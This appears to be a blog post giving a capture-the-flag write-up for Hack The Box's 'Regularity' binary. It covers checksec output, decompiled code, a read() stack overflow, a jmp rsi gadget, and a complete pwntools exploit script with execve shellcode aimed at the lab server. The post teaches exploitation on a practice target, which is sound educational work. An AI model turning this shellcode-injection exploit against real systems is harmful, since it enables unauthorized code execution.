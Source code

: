 ```yaml
---
title: Binary Exploitation Writeup - Regularity
published: true
date: 2025-02-25 00:00:00 +/-0000
categories: [general,ctf]
tags: [ctf,htb,binexp,binary exploitation,reverse engineering]     # TAG names should always be lowercase
image:
    path: /assets/images/malware.jpg
---
```


This ended up being a good introductory exercise to injecting shellcode. Rated "Very Easy" by Hack The Box, this `pwn` binary, this challenge took only a few minutes to exploit having got back into the swing of things.

This challenge is shipped without any source code, so we're meant to both reverse engineer the binary and develop an exploit for it. Running `checksec` shows the binary is pretty much unprotected:

| Check Performed | Impact |
|--|--|
| <span style="color:red">No RELRO</span>| Allows us to target the GOT, if need be. |
| <span style="color:red">No Canary Found</span>| Permits us to overflow RET addresses, if need be. |
| <span style="color:red">NX disabled</span>| Allows us to run shellcode within the stack, if need be. |
| <span style="color:red">No PIE</span>| Binary addresses aren't randomized at runtime, making it easier to perform targeted jumps. |

Decompiling the binary shows no symbols reflecting a `main()` function, so we'll default to `entry()` instead:

```c
void processEntry entry(void)

{
  size_t __nbytes;
  undefined *__buf;
  int __fd;
  
  __fd = 1;
  __buf = &message1;
  write(1,&message1,0x2a);
  read(__fd,__buf,__nbytes);
  write(1,&message3,0x27);
  syscall();
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

Under normative circumstances, this would print out `message1` (*"Hello, Survivor. Anything new these days?"*), the user would submit some input, and then print out `message2` (*"Yup, same old same old here as well..."*). The program would then exit out.

## Vulnerability

The vulnerability rests with the `read()` call, allowing for more bytes to be written into `buf` than what the string permits. Examining the underlying instructions affirms this in showing:

```assembly
mov edi, 0x1
mov rsi, message1
mov edx, 0x2a
call write
call read
```

Exploitation is pretty straightforward:

1. Determine the offset necessary to overflow the `ret` instruction using `cyclic()`
    1. This can be down first by constructing/submitting a payload like `cyclic(500)`
    2. After submitting, we can observe the overflow in `GDB` and calculate the offset using `cyclic_find()`
2. Identify an appropriate point to control/jump to
    1. At the point of overflowing, I'm interested in seeing if any of the registers are pointing to areas of the stack we overflow.
    2. In our case, this happens in `RSI`
3. Find a gadget that allows us to jump to that point.
    1. Using `ropper` and `objdump`, we can look for any `jmp` or `call` instructions to `RSI`.
    2. In our case, we can find a `jmp rsi` gadget at `0x401041`
4. Overflow that point with a NOPsled + shellcode
    1. A NOPsled is a consecutive series of `\x90` operations - in x86 Assembly, that's "no operation", letting the CPU spin cycles.
    2. One uses a NOPsled to mitigate small variances in the stack size at runtime. If the binary can't reliably jump directly to shellcode, it can land in a slew of `\x90` instructions *leading* to the shellcode.
    3. This *particular* binary actually doesn't have such variances in the stack, but we'll go through the motions all the same.

And here's our exploit code:

```python
#!/usr/bin/env python3
import sys

from pwn import *

context.update(arch='amd64', os='linux')


binstr = "./regularity"
address_port_str = "83.136.255.180:49349"
ip, port_str = address_port_str.split(":")
port = int(port_str)

#    break *0x56555d36
if (len(sys.argv)<= 1):
    p = process(binstr)
elif (sys.argv[1] == "dbg"):
    p = gdb.debug([binstr],'''
    unset env LINES
    unset env COLUMNS
    break *0x401000
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)

offset = cyclic_find(0x636161706361616f)
print("The offset is ", offset)
jmprsi = p64(0x401041)
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

payload = 50 * b'\x90'
payload += shellcode
payload += cyclic(offset - len(payload))
payload += jmprsi

p.sendline(payload)

p.interactive()
```

# Learning Outcomes

* This was a nice follow-up to [El Teteo earlier in the month]( {% post_url 2025/2025-02-08-binexp-elteteo %} ); building off of that exercise we actually need to do a *little* bit of exploiting (vs. merely supplying the shellcode directly).